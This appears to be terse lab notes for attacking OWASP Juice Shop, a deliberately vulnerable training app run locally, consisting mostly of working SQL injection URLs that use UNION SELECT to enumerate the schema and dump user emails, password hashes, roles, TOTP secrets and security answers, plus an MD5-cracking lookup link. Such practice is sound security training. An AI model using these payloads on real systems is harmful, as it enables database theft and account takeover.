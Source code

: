 

docker run --rm -p 3000:3000 bkimminich/juice-shop


http://localhost:3000/#/


https://localhost:3000/rest/products/search?q=asfasf')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--

https://localhost:3000/rest/products/search?q=asfasf')) UNION SELECT type, name, tbl_name, rootpage, sql, '6', '7', '8', '9' FROM sqlite_master--



https://localhost:3000/rest/products/search?q=asfasf')) UNION SELECT answer, UserId, '3', '4', '5', '6', '7', '8', '9' FROM SecurityAnswers--

      "deluxePrice": "CREATE TABLE `SecurityAnswers` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `answer` VARCHAR(255), `UserId` INTEGER UNIQUE REFERENCES `Users` (`id`) ON DELETE NO ACTION ON UPDATE CASCADE, `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `SecurityQuestionId` INTEGER REFERENCES `SecurityQuestions` (`id`) ON DELETE SET NULL ON UPDATE CASCADE)",

https://localhost:3000/rest/products/search?q=asfasf')) UNION SELECT id, username, email, password, role, totpSecret, isActive, '8', '9' FROM Users--

      "deluxePrice": "CREATE TABLE `Users` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `username` VARCHAR(255) DEFAULT '', `email` VARCHAR(255) UNIQUE, `password` VARCHAR(255), `role` VARCHAR(255) DEFAULT 'customer', `deluxeToken` VARCHAR(255) DEFAULT '', `lastLoginIp` VARCHAR(255) DEFAULT '0.0.0.0', `profileImage` VARCHAR(255) DEFAULT '/assets/public/images/uploads/default.svg', `totpSecret` VARCHAR(255) DEFAULT '', `isActive` TINYINT(1) DEFAULT 1, `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `deletedAt` DATETIME)",


https://md5.gromweb.com/?md5=b03f4b0ba8b458fa0acdc02cdb953bc8